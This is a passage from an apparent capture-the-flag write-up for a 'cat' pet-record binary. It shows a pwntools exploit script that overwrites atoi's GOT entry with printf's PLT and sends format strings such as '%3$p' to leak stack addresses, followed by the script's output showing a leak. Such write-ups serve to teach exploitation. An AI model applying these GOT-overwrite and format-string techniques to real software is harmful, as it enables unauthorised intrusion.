 ```
	target.recvuntil('>')
	target.sendline(modify)
	target.recvuntil('>')

def print_pet(index):
	target.sendline('3')
	target.recvuntil('>')
	target.sendline(index)
	target.recvuntil('>')
	name = target.recvline()
	kind = target.recvline()
	age = target.recvline()
	print "name: " + name
	print "kind: " + kind
	print "age: " + age
	target.recvuntil('>')


create_pet('reverent', 'drummer', '16')
edit_pet('0', '789654123', '95175382', '16', 'n')
create_pet('reverent', atoi_got + p64(0x602100) + p64(0x602300), '16')
edit_pet('0', printf_plt, '15935728', '16', 'y')
target.recvuntil('>')
target.sendline('%3$p')
target.recvuntil('>')
leak = target.recvline()
leak = leak.replace("Invalid command! (=+_+=)\n", "")
print "The leak is: " + leak

target.interactive()
```

here is the script running, followed by the manual format string attacks to leak values off of the stack (the reason why we use the `%p` format is to leak all 8 bytes):
```
$	python leak.py 
[+] Starting local process './cat': pid 7654
[*] running in new terminal: /usr/bin/gdb -q  "/Hackery/asis18q/rev/cat/cat" 7654
[+] Waiting for debugger: Done
[*] Switching to interactive mode
 16
2�Would you modify? (y)/n> edit id 0
------------------------------------------------
 1: create pet record
 2: edit pet record
 3: print record
 4: print all record
 5: delete record
 6: exit
------------------------------------------------
which command?
> $ %1$p
0x7ffc32a53210Invalid command! (=+_+=)
------------------------------------------------
 1: create pet record
 2: edit pet record
 3: print record
 4: print all record
 5: delete record
 6: exit
------------------------------------------------
which command?
> 
1$p---
```